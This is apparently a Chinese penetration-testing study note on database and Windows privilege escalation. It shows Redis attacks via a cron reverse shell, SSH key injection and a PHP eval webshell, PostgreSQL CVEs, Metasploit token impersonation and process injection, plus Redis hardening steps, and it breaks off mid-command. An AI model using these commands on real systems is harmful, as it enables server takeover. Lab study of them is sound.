# 思维导图



## 数据库提权




# 演示案例：

# Redis 数据库权限提升-计划任务

### 环境搭建

#### 服务器CentOS安装redis

```
wget http://download.redis.io/releases/redis-3.2.5.tar.gz
tar xzf redis-3.2.5.tar.gz
cd redis-3.2.5
make
```





#### 修改配置文件，使可以远程访问

```shell
vim redis.conf
```

- bind 127.0.0.1前面加上#号  或者设置为 0.0.0.0 支持其他ip地址访问

- 保护模式：protected-mode改为no，否则无法远程连接
- 设置后台运行：daemonize  yes
- 密码：修改requirepass   xxxxx（你的密码）

设置ip，关闭保护模式。



设置后台运行



设置密码



#### 云服务器开放端口



#### 启动redis-server

```shell
./src/redis-server  redis.conf
```

默认的配置是使用6379端口，没有密码。




#### 解决无法连接

连接redis，连接被拒绝



网上找了一圈资料，最后发现是没有开放端口6379的原因。

参考文章：[centos访问redis_redis-manager如何连接(centos)](https://blog.csdn.net/weixin_42513209/article/details/114490669)

（明明服务器开放了，但是还需要开一下）

```shell
firewall-cmd --query-port=6379/tcp
如果返回结果为no，那么证明6379端口确实没有开启。
```



```shell
输入
firewall-cmd --add-port=6379/tcp
将6379端口开启，返回success
```



```shell
再次查询端口是否开放
firewall-cmd --query-port=6379/tcp
返回结果为yes
```




然后重新启动redis-server

```shell
./src/redis-server  redis.conf
```

就可以连接了。




### redis基本命令

连接redis

```php
redis-cli -h 192.168.63.130
```

查看redis版本信息、一些具体信息、服务器版本信息等等：

```php
192.168.63.130:6379>info
```

将变量x的值设为test：

```php
192.168.63.130:6379>set x "test"
```

是把整个redis数据库删除，一般情况下不要用！！！

```php
192.168.63.130:6379>flushall
```

查看所有键：

```php
192.168.63.130:6379>KEYS *
```

获取默认的redis目录、和rdb文件名：可以在修改前先获取，然后走的时候再恢复。

```php
192.168.63.130:6379>CONFIG GET dir
192.168.63.130:6379>CONFIG GET dbfilename
```

### 攻击测试

连接Redis（利用未授权访问漏洞或者用户名密码连接）后，可以利用如下方法提权

#### 利用计划任务执行命令反弹 shell

先在自己的服务器上监听一个端口

```shell
nc -lvnp 5555

```

```shell
连接
redis-cli -h 192.168.80.137
执行命令
set  x   "\n* * * * * bash -i >& /dev/tcp/192.168.80.137/5555 0>&1\n"
config set dir /var/spool/cron/
config set dbfilename root
save

```





好慢，没反应! 

[详解NC反弹shell的几种方法](https://freexyz.cn/server/73853.html)

#### 写 ssh-keygen 公钥然后使用私钥登陆

Redis服务使用ROOT账号启动
服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器

```shell
1、在攻击机生成一个公钥文件：
    cd /root/.ssh/        #如果.ssh不存在的话,创建.ssh文件夹。
    ssh-keygen -t rsa     #执行完命令然后回车三次就结束了。
    cat id_rsa.pub
2、未授权或者弱口令访问redis服务，并写入公钥：
    redis -h 192.168.223.132      登录redis服务
    config set dir /root/.ssh/    #设置保存路径
    config set dbfilename authorized_keys    #设置保存文件名
    set x "\n\n\n ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDdetfvTA3f2gkKLnyC8cRKNPmN54QlK1a+QFedlN3BzDAWR7BJmv5qMaXdwTa++upI1gHyOb50rNBSddeIbbbND3uQiNpzJOUaLxrITe6QvELc055Ya1NVcsWeGR/B42daBFua+aBQ0bTMvW6Ne3PiVcvoisSgHNKtFPu6mvV+LV9+r1w9nib/iQAba2u/YHf3bC2+SChs1dDdD4wPz4Qf2E4gWrxXWQIJzqDfuHWHjQkqoh/frSwdYp6PHPzToYWXaGDA/JMgMovokCtGNE9ovTMndkdS18nLkoYQowQFBpv7EJOnFBXj9KIsc2jOfytSie0YZjFt4Fj89+0UTetH4hdEqWg5oEELVVXVnjY3vhOcQFsBFgr1vV00tVmm1KVJ4nuJ0L2/xOBsFixr6LVspBWh/0EZDpTBoVVjDBj4QBZRzfo/kiv9jUYFE5olyoxABRHnPBGfw1bXS0IjiK6P7I1Egm1n77g0DMqwjCiLfY6UAznU7R9QN82NKyvAwGs= root@kali \n\n\n"    #将公钥写入x键，用"\n\n\n"包裹住公钥，并且跟公钥之间用空格隔开
    save    # 保存
3、用私钥进行登录：
    ssh -i id_rsa    第一次登陆需要输入yes
```


#### 权限较低往 web 物理路径写 webshell

当redis权限不高，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell。

1.将shell写入web目录(web目录根据实际情况)

```
root@kali:~# redis-cli -h 192.168.223.132
192.168.223.132:6379> config set dir /var/www/html/
OK
192.168.223.132:6379> config set dbfilename shell.php
OK
192.168.223.132:6379> set x "<?php eval(@$_POST['a']); ?>"
OK
192.168.223.132:6379> save
OK
```

2.使用后门工具进行连接

##### 修复方案

注意：以下操作，均需重启 Redis 后才能生效。

- 绑定需要访问数据库的 IP。 将 127.0.0.1 修改为需要访问此数据库的 IP 地址。
- 设置访问密码。在 Redis.conf 中 requirepass 字段后，设置添加访问密码。
- 修改 Redis 服务运行账号。以较低权限账号运行 Redis 服务，禁用账号的登录权限。

```shell
1）禁止一些高危命令（重启redis才能生效)
    修改 redis.conf 文件，禁用远程修改 DB 文件地址
        rename-command FLUSHALL ""
        rename-command CONFIG ""
        rename-command EVAL ""
    或者通过修改redis.conf文件，改变这些高危命令的名称
        rename-command FLUSHALL "name1"
        rename-command CONFIG "name2"
        rename-command EVAL "name3"
 
2）以低权限运行 Redis 服务（重启redis才能生效）
    为 Redis 服务创建单独的用户和家目录，并且配置禁止登陆
        groupadd -r redis && useradd -r -g redis redis
 
3）为 Redis 添加密码验证（重启redis才能生效）
    修改 redis.conf 文件，添加
        requirepass mypassword
        （注意redis不要用-a参数，明文输入密码，连接后使用auth认证）
 
4）禁止外网访问 Redis（重启redis才能生效）
    修改 redis.conf 文件，添加或修改，使得 Redis 服务只在当前主机可用
        bind 127.0.0.1
    在redis3.2之后，redis增加了protected-mode，在这个模式下，非绑定IP或者没有配置密码访问时都会报错。
 
5）修改默认端口
    修改配置文件redis.conf文件
        Port 6379
    默认端口是6379，可以改变成其他端口（不要冲突就好）
 
6）保证 authorized_keys 文件的安全
    为了保证安全，您应该阻止其他用户添加新的公钥。将 authorized_keys 的权限设置为对拥有者只读，其他用户没有任何权限：
        chmod 400 ~/.ssh/authorized_keys
    为保证 authorized_keys 的权限不会被改掉，您还需要设置该文件的 immutable 位权限:
        chattr +i ~/.ssh/authorized_keys
    然而，用户还可以重命名 ~/.ssh，然后新建新的 ~/.ssh 目录和 authorized_keys 文件。要避免这种情况，需要设置 ~./ssh 的 immutable 权限：
        chattr +i ~/.ssh
 
7）设置防火墙策略
    如果正常业务中Redis服务需要被其他服务器来访问，可以设置iptables策略仅允许指定的IP来访问Redis服务。
```


# PostgreSQL 数据库权限提升-漏洞

### PostgreSQL 数据库权限提升

PostgreSQL 是一款关系型数据库。其 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。
提权利用的是漏洞：

- CVE-2019-9193
- CVE-2018-1058

##### CVE-2018-1058

PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

##### CVE-2019-9193

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

连接-利用漏洞-执行-提权

参考：https://vulhub.org/#/environments/postgres/
修复方案：升级版本或打上补丁

# Windows2008&7 令牌窃取提升-本地

案例 3:Windows2008&7 令牌窃取提升-本地
进行远程过程调用时请求提升权限，然后调用它从而生成特权安全令牌以执行特权操作。当系统允许令牌不仅用于进程本身，还用于原始请求进程时，漏洞就会出现。

**本地提权实验：获取会话-利用模块-窃取令牌-提权**

适合版本

- Microsoft Windows XP Professional SP3 和之前版本
- Windows Server 2003 SP2 和之前的版本
- Windows Server 2003 x64 和 x64 SP2
- Windows Server 2003（用于基于 Itanium 的系统 SP2 和先前版本）
- Windows Server 2008 x32 x64
- Windows Server 2008（用于基于 Itanium 的系统）
- Windows Vista SP1 和之前的版本
- Windows Vista x64 SP1 和之前的版本

##### 操作

- 在本地msf服务器上，执行以下命令，生成反弹shell木马



- 在本地msf服务器上执行以下命令，监听端口

```shell
msfconsole
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
show options
set lhost 0.0.0.0
set lport 6677
show options
exploit
```

- 将该木马xx.exe，上传到远程目标服务器，并运行木马程序。

- 本地监听到会话，查看权限为普通用户xiaodi

  

##### 提权

```
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```



# Windows2003&10 进程注入提升-本地

案例 4:Windows2003&10 进程注入提升
进程注入提权是本地提权方式的一种较为老的安全技术了，利用的是注入进程的所有者实现权限共享机制，这类技术主要利用在 windows2008 之前操作系统上.所以我们需要学习后续的本地提权更多的手法才能有针对高版本的系统。

##### pinjector 进程注入工具针对-win2008 以前操作系统

演示环境：Windows2003

- 将pinjector工具上传到目标服务器，运行以下命令

  

- ```
  pinjector.exe 　　　　　　//运行命令，查看用法
